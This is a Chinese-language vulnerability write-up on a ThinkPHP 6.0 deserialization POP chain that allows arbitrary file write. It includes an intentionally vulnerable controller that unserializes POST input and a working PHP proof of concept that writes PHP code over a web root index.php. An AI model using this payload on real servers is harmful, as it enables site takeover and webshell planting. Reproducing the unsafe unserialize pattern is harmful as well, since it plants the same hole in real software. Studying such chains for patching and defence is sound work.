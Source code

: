 Thinkphp 6.0 任意文件写入pop链
==============================

一、漏洞简介
------------

需要知晓绝对路径

二、漏洞影响
------------

Thinkphp 6.0

三、复现过程
------------

### 环境搭建

ThinkPHP6.0.2

PHP7.2

    <?php
    namespace app\controller;
    use app\BaseController;

    class Index extends BaseController

        public function test(){
            echo base64_decode($_POST['payload']);
            $payload = unserialize(base64_decode($_POST['payload']));
        }
    }

### 漏洞分析

POP链：

    League\Flysystem\Cached\Storage\AbstractCache --> destruct()
    League\Flysystem\Cached\Storage\Adapter --> save()
    League\Flysystem\Adapter\Local --> write()
    vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php

![](./resource/Thinkphp6.0任意文件写入pop链/media/rId26.jpg)

因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`

![](./resource/Thinkphp6.0任意文件写入pop链/media/rId27.jpg)

\$contents决定文件写入内容，显然可向\$this-\>complete或\$this-\>expire写入具体内容即可

![](./resource/Thinkphp6.0任意文件写入pop链/media/rId28.jpg)

接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件

![](./resource/Thinkphp6.0任意文件写入pop链/media/rId29.jpg)

但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

![](./resource/Thinkphp6.0任意文件写入pop链/media/rId30.jpg)

### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

    <?php
    namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
    use League\Flysystem\Adapter\Local;
    abstract class AbstractCache{
        protected $autosave = true;
        protected $cache = [];
        protected $complete = [];
        function __construct(){
            $this->autosave = false;
            $this->cache = ['test'];
            $this->complete = ["axin"=>"<?php phpinfo();?>"];
        }
    }

    class Adapter extends AbstractCache{
        protected $adapter;
        protected $file;
        protected $expire = null;

        function __construct(){
            parent::__construct();
            $this->adapter = new Local();
            $this->file = "var/www/html/index.php";
            #$this->file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
            $this->expire = 123;
        }
    }

    namespace League\Flysystem\Adapter;
    abstract class AbstractAdapter{
        protected $pathPrefix;
        function __construct(){
            $this->pathPrefix = "/";
            #$this->pathPrefix = "D";  #windows下目录
        }
    }
    class Local extends AbstractAdapter{

    }
    use League\Flysystem\Cached\Storage\Adapter;
    echo base64_encode(serialize(new Adapter()));

![](./resource/Thinkphp6.0任意文件写入pop链/media/rId32.jpg)

效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

![](./resource/Thinkphp6.0任意文件写入pop链/media/rId33.png)

文件成功写入：

![](./resource/Thinkphp6.0任意文件写入pop链/media/rId34.png)

参考链接
--------

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/
>
> https://www.anquanke.com/post/id/194269
